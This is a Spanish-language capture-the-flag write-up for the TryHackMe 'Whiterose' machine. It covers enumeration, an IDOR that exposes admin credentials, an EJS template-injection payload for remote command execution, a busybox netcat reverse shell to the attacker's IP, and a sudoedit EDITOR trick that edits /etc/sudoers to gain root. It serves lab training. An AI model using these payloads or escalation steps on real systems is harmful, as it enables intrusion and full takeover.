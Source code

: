 22-02-2025 20:11
Status: #idea
Tags: [[Writeups]]

# Whiterose

Olivia Cortez:olivi8

10.10.170.109

Se nos indica al principio que el usuario Olivia Cortez con la contraseña olivi8 serán útiles a lo largo de la máquina.

Tras un escaneo de nmap, podemos determinar que los puertos 80 y 22 están abiertos, teniendo así los servicios de SSH y Nginx activos.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

Las versiones de estos servicios son OpenSSH 7.6p1 Ubuntu 4ubuntu0.7, y nginx/1.14.0 respectivamente.

El sistema operativo de la máquina es Linux.

Al acceder a la web veremos un mensaje de mantenimiento.

![[Pasted image 20250222203344.png]]

## Enumeración

### Directorios

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

Con esta búsqueda no se ha encontrado nada, por lo tanto paso a hacer enumeración de VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Como vemos, admin llama a la atención, por lo tanto editaremos el archivo /etc/hosts, para poder acceder.

Una vez accedemos, hay un panel de administración.

![[Pasted image 20250222204508.png]]

Si probamos a usar las credenciales que nos han indicado anteriormente en la sala, obtendremos acceso al panel.

![[Pasted image 20250222205606.png]]

Los datos que vemos en el panel están censurados, por lo que no podremos ver el número de teléfono de Tyrell.

Si accedemos a la sección de mensajes, veremos una url con un parámetro interesante. Si lo cambiamos, haremos un IDOR y obtendremos las credenciales de una cuenta de administrador.

Con esto ya podremos obtener el número de teléfono de Tyrell.

Si accedemos al apartado de settings, e interceptamos la request, podremos jugar con los parámetros y ver que podemos producir un error 500 que mostrará una traza interesante:

```text
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Llama la atención el archivo settings.ejs, si buscamos algún tipo de exploit con referencia a esto, podremos vulnerar la máquina.

Y para nuestra suerte, hay un CVE que nos permite ejecutar comandos (RCE) en la máquina.

Con este payload podremos ejecutar el comando "whoami":

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Al poder ejecutar este tipo de comandos, podríamos conseguir una reverse shell, lo que nos permitiría ejecutar comandos directamente en la máquina sin necesidad de interactuar a través de requests.

Con el siguiente payload podremos recibir la conexión en nuestro listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Posteriormente vamos a ver como en nuestro netcat se recibe una conexión, y podremos spawnear una shell con python o de otras maneras:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Si seguimos investigando dentro de los directorios de nuestro servidor, veremos la flag de user.txt:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$ 
```

Para ver que comandos puede ejecutar nuestro usuario, haremos sudo -l y vemos que tenemos permisos para ejecutar sudoedit:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

A partir de aquí tenemos que ver como explotar la máquina y aprovecharnos de esto.

Vemos que hay un exploit que podemos hacer que nos permitiría tener privilegios como root:

```shell
export EDITOR="vim -- /etc/sudoers"
```

Esto nos permitirá abrir vim con el fichero /etc/sudoers cuando abramos el archivo /etc/nginx/sites-available/admin.cyprusbank.thm.

Ahora solo nos faltará hacer esto:

```shell
web ALL=(ALL:ALL) ALL
```

Y ya podríamos hacer sudo su sin contraseña necesaria :).

Solo nos faltaría encontrar el archivo root.txt, ver su contenido y ya tenemos nuestra sala terminada.

Esta flag se encontrará dnetro de /root, con un cat ya tendremos nuestra flag.


---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```

